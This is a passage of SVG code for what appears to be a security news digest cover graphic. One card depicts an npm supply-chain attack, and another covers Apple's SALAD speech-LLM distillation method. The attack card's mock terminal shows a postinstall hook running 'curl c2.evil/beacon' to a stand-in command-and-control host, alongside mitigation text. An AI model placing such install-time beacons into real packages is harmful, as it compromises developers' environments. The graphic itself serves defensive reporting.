    <g transform="translate(24,118)" filter="url(#softShadow)">
      <rect x="0" y="0" width="172" height="96" rx="6" fill="#0A0614" stroke="#C026D3" stroke-width="1.4" />
      <rect x="0" y="0" width="172" height="18" rx="6" fill="#1A0828" />
      <circle cx="12" cy="9" r="3.5" fill="#FF5F57" />
      <circle cx="26" cy="9" r="3.5" fill="#FEBC2E" />
      <circle cx="40" cy="9" r="3.5" fill="#28C840" />
      <text x="8" y="34" font-family="Inter, monospace" font-size="8" fill="#A78BFA">$ npm install next-ui-kit</text>
      <text x="8" y="48" font-family="Inter, monospace" font-size="8" fill="#C026D3">  [postinstall]</text>
      <text x="8" y="62" font-family="Inter, monospace" font-size="8" fill="#F0ABFC">  curl c2.evil/beacon</text>
      <text x="8" y="76" font-family="Inter, monospace" font-size="8" fill="#FFFFFF" font-weight="700">  PWNED: RCE</text>
      <text x="8" y="90" font-family="Inter, monospace" font-size="8" fill="#E879F9">  src: Microsoft Security</text>
    </g>
    <g transform="translate(250,154)">
      <circle cx="32" cy="32" r="30" fill="#1A0828" stroke="#C026D3" stroke-width="1.8" filter="url(#softShadow)" />
      <text x="32" y="28" text-anchor="middle" font-family="Inter, monospace" font-size="9" font-weight="700" fill="#E879F9">C2</text>
      <text x="32" y="42" text-anchor="middle" font-family="Inter, monospace" font-size="8" fill="#F0ABFC">BEACON</text>
      <circle cx="32" cy="32" r="36" fill="none" stroke="#C026D3" stroke-width="1" stroke-dasharray="4 4">
        <animate attributeName="r" values="30;46;30" dur="3s" repeatCount="indefinite" />
        <animate attributeName="opacity" values="0.8;0;0.8" dur="3s" repeatCount="indefinite" />
      </circle>
      <circle cx="32" cy="32" r="44" fill="none" stroke="#C026D3" stroke-width="0.7" stroke-dasharray="3 5">
        <animate attributeName="r" values="36;54;36" dur="3s" begin="0.5s" repeatCount="indefinite" />
        <animate attributeName="opacity" values="0.5;0;0.5" dur="3s" begin="0.5s" repeatCount="indefinite" />
      </circle>
    </g>
    <g transform="translate(320,122)">
      <circle cx="8" cy="8" r="3.5" fill="#C026D3" />
      <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#DDD6FE">npm postinstall hook</text>
      <g transform="translate(0,22)">
        <circle cx="8" cy="8" r="3.5" fill="#C026D3" />
        <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#DDD6FE">C2 server beaconing</text>
      </g>
      <g transform="translate(0,44)">
        <circle cx="8" cy="8" r="3.5" fill="#C026D3" />
        <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#DDD6FE">Dev env compromise</text>
      </g>
      <g transform="translate(0,66)">
        <circle cx="8" cy="8" r="3.5" fill="#C026D3" />
        <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#DDD6FE">--ignore-scripts fix</text>
      </g>
    </g>
    <g transform="translate(430,124)" filter="url(#softShadow)">
      <rect x="0" y="0" width="120" height="100" rx="10" fill="#160820" stroke="#C026D3" stroke-width="1.8" />
      <text x="60" y="24" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" letter-spacing="2" fill="#E879F9">VECTOR</text>
      <text x="60" y="60" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="20" font-weight="900" fill="#F5F7FA">npm</text>
      <text x="60" y="82" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="600" fill="#F0ABFC">supply chain</text>
    </g>
  </g>
  <g transform="translate(612,348)">
    <rect x="0" y="0" width="556" height="242" rx="14" fill="url(#cardD)" stroke="#3A86FF" stroke-width="1.6" opacity="0.97" />
    <rect x="0" y="0" width="6" height="242" fill="#3A86FF" />
    <rect x="0" y="0" width="556" height="4" fill="#3A86FF" opacity="0.7" />
    <g transform="translate(20,18)">
      <rect x="0" y="0" width="40" height="40" rx="6" fill="#3A86FF" opacity="0.2" />
      <text x="20" y="28" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="22" font-weight="900" fill="#8FB8FF">04</text>
    </g>
    <g filter="url(#textShadow)">
      <text x="74" y="36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="12" font-weight="700" fill="#8FB8FF" letter-spacing="2.4">MEDIUM  /  AI / LLM</text>
      <text x="74" y="58" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="800" fill="#F5F7FA">Apple SALAD: Speech-LLM Gap</text>
    </g>
    <text x="20" y="102" font-family="Inter, Helvetica, Arial, sans-serif" font-size="14" font-weight="500" fill="#BFC9D9">Cross-modal distillation closes speech vs text LLM gap</text>
    <g transform="translate(24,118)" filter="url(#softShadow)">
      <g fill="#3A86FF" opacity="0.9">
        <rect x="0" y="32" width="8" height="40" rx="2" />
        <rect x="12" y="18" width="8" height="56" rx="2" />
        <rect x="24" y="8" width="8" height="68" rx="2" />
        <rect x="36" y="20" width="8" height="52" rx="2" />
        <rect x="48" y="30" width="8" height="38" rx="2" />
        <rect x="60" y="14" width="8" height="60" rx="2" />
        <rect x="72" y="28" width="8" height="40" rx="2" />
      </g>
      <path d="M92 48 L130 48" stroke="#8FB8FF" stroke-width="2" stroke-dasharray="4 3" fill="none">
        <animate attributeName="stroke-dashoffset" values="0;-14" dur="1.2s" repeatCount="indefinite" />
      </path>
      <polygon points="130,42 142,48 130,54" fill="#8FB8FF" />
      <rect x="148" y="22" width="104" height="50" rx="6" fill="#0A1B2E" stroke="#3A86FF" stroke-width="1.4" />
      <text x="200" y="42" text-anchor="middle" font-family="Inter, monospace" font-size="10" font-weight="700" fill="#8FB8FF">LLM</text>
      <text x="200" y="58" text-anchor="middle" font-family="Inter, monospace" font-size="9" fill="#BFC9D9">SALAD</text>
    </g>
    <g transform="translate(290,122)">
      <circle cx="8" cy="8" r="3.5" fill="#3A86FF" />
      <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#BFC9D9">Cross-modal distillation</text>
      <g transform="translate(0,22)">
        <circle cx="8" cy="8" r="3.5" fill="#3A86FF" />
        <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#BFC9D9">Synthetic data training</text>
      </g>
      <g transform="translate(0,44)">
        <circle cx="8" cy="8" r="3.5" fill="#3A86FF" />
        <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#BFC9D9">Public audio only</text>
      </g>
      <g transform="translate(0,66)">
        <circle cx="8" cy="8" r="3.5" fill="#3A86FF" />
        <text x="20" y="12" font-family="Inter, Helvetica, Arial, sans-serif" font-size="11" font-weight="600" fill="#BFC9D9">Multimodal parity</text>
      </g>
    </g>
    <g transform="translate(422,124)" filter="url(#softShadow)">
      <rect x="0" y="0" width="120" height="100" rx="10" fill="#0A1B2E" stroke="#3A86FF" stroke-width="1.8" />
      <text x="60" y="24" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" letter-spacing="2" fill="#8FB8FF">METHOD</text>
      <text x="60" y="62" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="24" font-weight="900" fill="#F5F7FA">SALAD</text>
      <text x="60" y="82" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="600" fill="#8FB8FF">Apple MLR</text>
    </g>
    <g fill="#3A86FF">
      <circle cx="530" cy="26" r="1.4">
        <animate attributeName="opacity" values="0.2;1;0.2" dur="2.0s" repeatCount="indefinite" />
      </circle>
      <circle cx="546" cy="26" r="1.4">
        <animate attributeName="opacity" values="0.2;1;0.2" dur="1.5s" begin="0.4s" repeatCount="indefinite" />
      </circle>
    </g>
  </g>
  <g transform="translate(1112,558)">
    <rect x="0" y="0" width="60" height="60" rx="4" fill="#F5F7FA" />
    <rect x="4" y="4" width="18" height="18" rx="1" fill="#0A1226" />
    <rect x="6" y="6" width="14" height="14" rx="0.5" fill="#F5F7FA" />
    <rect x="8" y="8" width="10" height="10" rx="0.5" fill="#0A1226" />
    <rect x="38" y="4" width="18" height="18" rx="1" fill="#0A1226" />
    <rect x="40" y="6" width="14" height="14" rx="0.5" fill="#F5F7FA" />
    <rect x="42" y="8" width="10" height="10" rx="0.5" fill="#0A1226" />
    <rect x="4" y="38" width="18" height="18" rx="1" fill="#0A1226" />
    <rect x="6" y="40" width="14" height="14" rx="0.5" fill="#F5F7FA" />
    <rect x="8" y="42" width="10" height="10" rx="0.5" fill="#0A1226" />
    <g fill="#0A1226">
      <rect x="28" y="4" width="5" height="5" />
      <rect x="28" y="12" width="5" height="5" />
      <rect x="4" y="28" width="5" height="5" />
      <rect x="12" y="28" width="5" height="5" />
      <rect x="20" y="20" width="5" height="5" />
      <rect x="28" y="20" width="5" height="5" />
      <rect x="36" y="20" width="5" height="5" />
      <rect x="28" y="28" width="5" height="5" />
      <rect x="36" y="28" width="5" height="5" />
      <rect x="44" y="28" width="5" height="5" />
      <rect x="28" y="36" width="5" height="5" />
      <rect x="20" y="36" width="5" height="5" />
      <rect x="44" y="36" width="5" height="5" />
      <rect x="36" y="44" width="5" height="5" />
      <rect x="20" y="44" width="5" height="5" />
      <rect x="28" y="44" width="5" height="5" />
      <rect x="52" y="4" width="4" height="4" />
      <rect x="52" y="12" width="4" height="4" />
      <rect x="4" y="52" width="4" height="4" />
      <rect x="12" y="52" width="4" height="4" />
      <rect x="52" y="52" width="4" height="4" />
    </g>
    <text x="30" y="72" text-anchor="middle" font-family="Inter, Helvetica, Arial, sans-serif" font-size="7" fill="#7DA3D9">tech.2twodragon.com</text>
  </g>
  <rect x="0" y="618" width="1200" height="12" fill="#050813" opacity="0.7" />
  <text x="36" y="610" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" fill="#4A6080" letter-spacing="1">tech.2twodragon.com/posts/2026/02/25/Tech_Security_Weekly_Digest_AI_Malware_Ransomware_LLM</text>
  <g transform="translate(1080,504)" filter="url(#softShadow)">
    <rect x="-8" y="-8" width="100" height="100" rx="6" fill="#FFFFFF" />
    <g transform="scale(2.04878)" fill="#0A1020">
      <path d="M0 0h7v1h-7zM8 0h5v1h-5zM17 0h4v1h-4zM22 0h1v1h-1zM28 0h5v1h-5zM34 0h7v1h-7zM0 1h1v1h-1zM6 1h1v1h-1zM8 1h1v1h-1zM10 1h1v1h-1zM18 1h1v1h-1zM21 1h3v1h-3zM30 1h1v1h-1zM34 1h1v1h-1zM40 1h1v1h-1zM0 2h1v1h-1zM2 2h3v1h-3zM6 2h1v1h-1zM9 2h2v1h-2zM12 2h1v1h-1zM14 2h2v1h-2zM17 2h1v1h-1zM19 2h2v1h-2zM24 2h3v1h-3zM30 2h3v1h-3zM34 2h1v1h-1zM36 2h3v1h-3zM40 2h1v1h-1zM0 3h1v1h-1zM2 3h3v1h-3zM6 3h1v1h-1zM8 3h2v1h-2zM13 3h1v1h-1zM16 3h1v1h-1zM19 3h3v1h-3zM26 3h4v1h-4zM32 3h1v1h-1zM34 3h1v1h-1zM36 3h3v1h-3zM40 3h1v1h-1zM0 4h1v1h-1zM2 4h3v1h-3zM6 4h1v1h-1zM14 4h1v1h-1zM16 4h1v1h-1zM23 4h2v1h-2zM27 4h1v1h-1zM29 4h1v1h-1zM31 4h2v1h-2zM34 4h1v1h-1zM36 4h3v1h-3zM40 4h1v1h-1zM0 5h1v1h-1zM6 5h1v1h-1zM9 5h2v1h-2zM15 5h1v1h-1zM17 5h6v1h-6zM24 5h1v1h-1zM28 5h1v1h-1zM30 5h2v1h-2zM34 5h1v1h-1zM40 5h1v1h-1zM0 6h7v1h-7zM8 6h1v1h-1zM10 6h1v1h-1zM12 6h1v1h-1zM14 6h1v1h-1zM16 6h1v1h-1zM18 6h1v1h-1zM20 6h1v1h-1zM22 6h1v1h-1zM24 6h1v1h-1zM26 6h1v1h-1zM28 6h1v1h-1zM30 6h1v1h-1zM32 6h1v1h-1zM34 6h7v1h-7zM8 7h2v1h-2zM15 7h3v1h-3zM19 7h1v1h-1zM24 7h1v1h-1zM26 7h1v1h-1zM29 7h1v1h-1zM31 7h2v1h-2zM0 8h1v1h-1zM2 8h2v1h-2zM5 8h3v1h-3zM9 8h1v1h-1zM11 8h1v1h-1zM14 8h1v1h-1zM16 8h3v1h-3zM21 8h1v1h-1zM23 8h2v1h-2zM26 8h1v1h-1zM29 8h4v1h-4zM34 8h1v1h-1zM37 8h1v1h-1zM39 8h2v1h-2zM4 9h2v1h-2zM7 9h1v1h-1zM9 9h1v1h-1zM11 9h2v1h-2zM16 9h1v1h-1zM18 9h2v1h-2zM21 9h1v1h-1zM23 9h1v1h-1zM26 9h1v1h-1zM30 9h3v1h-3zM35 9h2v1h-2zM38 9h1v1h-1zM40 9h1v1h-1zM3 10h1v1h-1zM5 10h5v1h-5zM13 10h1v1h-1zM15 10h1v1h-1zM20 10h1v1h-1zM22 10h2v1h-2zM25 10h2v1h-2zM29 10h1v1h-1zM38 10h2v1h-2zM0 11h2v1h-2zM3 11h2v1h-2zM7 11h2v1h-2zM10 11h1v1h-1zM13 11h1v1h-1zM18 11h1v1h-1zM20 11h1v1h-1zM22 11h1v1h-1zM24 11h2v1h-2zM27 11h1v1h-1zM32 11h1v1h-1zM36 11h1v1h-1zM39 11h2v1h-2zM0 12h3v1h-3zM6 12h1v1h-1zM8 12h2v1h-2zM15 12h1v1h-1zM17 12h1v1h-1zM19 12h2v1h-2zM22 12h1v1h-1zM24 12h2v1h-2zM29 12h3v1h-3zM35 12h1v1h-1zM37 12h3v1h-3zM0 13h1v1h-1zM3 13h3v1h-3zM9 13h1v1h-1zM11 13h2v1h-2zM14 13h1v1h-1zM16 13h2v1h-2zM20 13h2v1h-2zM25 13h4v1h-4zM30 13h2v1h-2zM34 13h1v1h-1zM37 13h1v1h-1zM39 13h2v1h-2zM0 14h1v1h-1zM2 14h2v1h-2zM6 14h1v1h-1zM9 14h2v1h-2zM14 14h3v1h-3zM19 14h3v1h-3zM24 14h2v1h-2zM28 14h2v1h-2zM31 14h2v1h-2zM34 14h3v1h-3zM38 14h3v1h-3zM8 15h2v1h-2zM12 15h2v1h-2zM16 15h1v1h-1zM21 15h2v1h-2zM26 15h1v1h-1zM31 15h1v1h-1zM34 15h1v1h-1zM36 15h2v1h-2zM2 16h3v1h-3zM6 16h3v1h-3zM14 16h1v1h-1zM18 16h1v1h-1zM20 16h1v1h-1zM22 16h1v1h-1zM24 16h2v1h-2zM30 16h1v1h-1zM32 16h1v1h-1zM36 16h2v1h-2zM39 16h1v1h-1zM4 17h1v1h-1zM8 17h3v1h-3zM12 17h1v1h-1zM14 17h1v1h-1zM16 17h1v1h-1zM19 17h6v1h-6zM29 17h1v1h-1zM32 17h2v1h-2zM35 17h1v1h-1zM37 17h1v1h-1zM2 18h1v1h-1zM4 18h1v1h-1zM6 18h1v1h-1zM9 18h1v1h-1zM11 18h1v1h-1zM13 18h2v1h-2zM18 18h1v1h-1zM20 18h1v1h-1zM22 18h1v1h-1zM25 18h4v1h-4zM32 18h1v1h-1zM36 18h1v1h-1zM38 18h2v1h-2zM0 19h1v1h-1zM5 19h1v1h-1zM9 19h3v1h-3zM13 19h2v1h-2zM17 19h3v1h-3zM21 19h1v1h-1zM27 19h4v1h-4zM35 19h1v1h-1zM37 19h3v1h-3zM0 20h2v1h-2zM6 20h1v1h-1zM8 20h1v1h-1zM10 20h1v1h-1zM16 20h1v1h-1zM20 20h1v1h-1zM25 20h3v1h-3zM29 20h7v1h-7zM37 20h3v1h-3zM0 21h1v1h-1zM2 21h1v1h-1zM4 21h2v1h-2zM8 21h1v1h-1zM12 21h5v1h-5zM20 21h2v1h-2zM23 21h2v1h-2zM31 21h1v1h-1zM34 21h3v1h-3zM39 21h2v1h-2zM1 22h2v1h-2zM4 22h4v1h-4zM13 22h1v1h-1zM20 22h1v1h-1zM23 22h2v1h-2zM28 22h3v1h-3zM33 22h2v1h-2zM36 22h1v1h-1zM39 22h1v1h-1zM0 23h1v1h-1zM2 23h1v1h-1zM7 23h1v1h-1zM9 23h1v1h-1zM15 23h1v1h-1zM18 23h2v1h-2zM24 23h2v1h-2zM27 23h1v1h-1zM30 23h1v1h-1zM32 23h2v1h-2zM35 23h2v1h-2zM39 23h1v1h-1zM0 24h1v1h-1zM3 24h1v1h-1zM5 24h2v1h-2zM8 24h5v1h-5zM14 24h4v1h-4zM19 24h1v1h-1zM22 24h1v1h-1zM24 24h3v1h-3zM29 24h1v1h-1zM31 24h1v1h-1zM35 24h1v1h-1zM38 24h2v1h-2zM1 25h1v1h-1zM4 25h2v1h-2zM9 25h1v1h-1zM11 25h1v1h-1zM14 25h1v1h-1zM16 25h2v1h-2zM19 25h1v1h-1zM24 25h2v1h-2zM27 25h1v1h-1zM29 25h1v1h-1zM31 25h3v1h-3zM37 25h2v1h-2zM40 25h1v1h-1zM1 26h1v1h-1zM6 26h5v1h-5zM14 26h1v1h-1zM16 26h1v1h-1zM18 26h3v1h-3zM24 26h1v1h-1zM26 26h1v1h-1zM28 26h2v1h-2zM31 26h2v1h-2zM34 26h1v1h-1zM37 26h1v1h-1zM39 26h2v1h-2zM0 27h2v1h-2zM4 27h1v1h-1zM7 27h2v1h-2zM16 27h1v1h-1zM19 27h5v1h-5zM26 27h2v1h-2zM30 27h3v1h-3zM35 27h3v1h-3zM40 27h1v1h-1zM2 28h2v1h-2zM5 28h3v1h-3zM9 28h1v1h-1zM11 28h2v1h-2zM14 28h3v1h-3zM18 28h5v1h-5zM25 28h4v1h-4zM31 28h1v1h-1zM33 28h1v1h-1zM36 28h2v1h-2zM39 28h1v1h-1zM2 29h1v1h-1zM4 29h1v1h-1zM10 29h2v1h-2zM13 29h3v1h-3zM17 29h1v1h-1zM19 29h2v1h-2zM22 29h1v1h-1zM24 29h4v1h-4zM29 29h2v1h-2zM32 29h1v1h-1zM35 29h1v1h-1zM37 29h1v1h-1zM39 29h1v1h-1zM0 30h1v1h-1zM3 30h1v1h-1zM5 30h2v1h-2zM8 30h1v1h-1zM11 30h2v1h-2zM16 30h1v1h-1zM19 30h1v1h-1zM21 30h1v1h-1zM24 30h5v1h-5zM33 30h3v1h-3zM2 31h2v1h-2zM5 31h1v1h-1zM8 31h3v1h-3zM12 31h1v1h-1zM14 31h1v1h-1zM17 31h1v1h-1zM19 31h1v1h-1zM22 31h3v1h-3zM29 31h1v1h-1zM31 31h1v1h-1zM34 31h1v1h-1zM36 31h5v1h-5zM1 32h1v1h-1zM3 32h4v1h-4zM8 32h1v1h-1zM11 32h1v1h-1zM13 32h1v1h-1zM16 32h3v1h-3zM20 32h1v1h-1zM23 32h2v1h-2zM26 32h1v1h-1zM29 32h2v1h-2zM32 32h7v1h-7zM40 32h1v1h-1zM8 33h4v1h-4zM14 33h1v1h-1zM16 33h2v1h-2zM20 33h2v1h-2zM23 33h1v1h-1zM25 33h1v1h-1zM27 33h2v1h-2zM32 33h1v1h-1zM36 33h1v1h-1zM38 33h3v1h-3zM0 34h7v1h-7zM8 34h1v1h-1zM10 34h2v1h-2zM15 34h1v1h-1zM18 34h1v1h-1zM23 34h2v1h-2zM28 34h1v1h-1zM30 34h3v1h-3zM34 34h1v1h-1zM36 34h4v1h-4zM0 35h1v1h-1zM6 35h1v1h-1zM8 35h3v1h-3zM16 35h2v1h-2zM19 35h1v1h-1zM24 35h2v1h-2zM28 35h1v1h-1zM30 35h1v1h-1zM32 35h1v1h-1zM36 35h1v1h-1zM39 35h1v1h-1zM0 36h1v1h-1zM2 36h3v1h-3zM6 36h1v1h-1zM10 36h1v1h-1zM13 36h3v1h-3zM19 36h1v1h-1zM21 36h1v1h-1zM26 36h1v1h-1zM29 36h1v1h-1zM32 36h7v1h-7zM40 36h1v1h-1zM0 37h1v1h-1zM2 37h3v1h-3zM6 37h1v1h-1zM8 37h1v1h-1zM10 37h3v1h-3zM15 37h3v1h-3zM19 37h1v1h-1zM22 37h1v1h-1zM26 37h2v1h-2zM29 37h1v1h-1zM31 37h1v1h-1zM36 37h3v1h-3zM40 37h1v1h-1zM0 38h1v1h-1zM2 38h3v1h-3zM6 38h1v1h-1zM8 38h3v1h-3zM13 38h2v1h-2zM19 38h3v1h-3zM26 38h1v1h-1zM28 38h2v1h-2zM35 38h1v1h-1zM39 38h2v1h-2zM0 39h1v1h-1zM6 39h1v1h-1zM9 39h1v1h-1zM11 39h1v1h-1zM14 39h1v1h-1zM16 39h4v1h-4zM21 39h4v1h-4zM26 39h1v1h-1zM28 39h1v1h-1zM32 39h2v1h-2zM36 39h2v1h-2zM39 39h1v1h-1zM0 40h7v1h-7zM8 40h1v1h-1zM11 40h3v1h-3zM15 40h1v1h-1zM17 40h2v1h-2zM20 40h4v1h-4zM25 40h1v1h-1zM30 40h1v1h-1zM32 40h3v1h-3zM37 40h3v1h-3z" />
    </g>
  </g>
  <text x="1122" y="614" font-family="Inter, Helvetica, Arial, sans-serif" font-size="10" font-weight="700" fill="#F5F7FA" text-anchor="middle">scan / full post</text>
</svg>
